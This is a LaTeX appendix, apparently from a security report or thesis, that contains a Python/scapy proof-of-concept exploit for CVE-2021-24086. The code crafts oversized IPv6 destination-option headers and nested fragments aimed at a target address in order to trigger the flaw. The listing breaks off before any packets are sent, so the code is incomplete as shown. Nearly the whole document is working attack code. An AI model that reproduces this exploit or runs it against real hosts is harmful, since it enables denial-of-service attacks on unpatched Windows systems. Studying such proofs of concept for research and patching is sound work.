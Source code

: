 \documentclass{report}
\begin{document}
\section{\gls{poc} for CVE-2021-24086}
\label{appendix:poc}
\begin{verbatim}
from scapy.all import *
import argparse

def custom_fragment6(target, frag_id, bytes, nh, frag_size = 1008):
    assert (frag_size % 8) == 0
    rest = bytes
    offset = 0
    frags = []

    while len(rest) > 0:
        chunk = rest[: frag_size]
        rest = rest[len(chunk): ]
        last_pkt = len(rest) == 0

        # 0 -> No more / 1 -> More
        m = 0 if last_pkt else 1
        assert offset < 8191
        pkt = Ether() \
            / IPv6(dst = target) \
            / IPv6ExtHdrFragment(m = m, nh = nh, id = frag_id, offset = offset) \
            / chunk

        offset += (len(chunk) // 8)
        frags.append(pkt)
    return frags

def exploit(args):
    first_fragment_id = random.randint(0, 0xffffffff)
    second_fragment_id = random.randint(0, 0xffffffff)

    packet1 = IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
        ])

    for i in range(35):
        packet1 /= IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
        ])
    
    packet1 /= IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xa0)),
        ])
    packet1 /= IPv6ExtHdrFragment(
        id = second_fragment_id, m = 1,
        nh = 17, offset = 0
    ) \
    / UDP(dport = 31337, sport = 31337, chksum=0x7e7f)

    packet1 = bytes(packet1)

    frags = custom_fragment6(args.target, first_fragment_id, packet1, 60)


\end{verbatim}
\end{document}

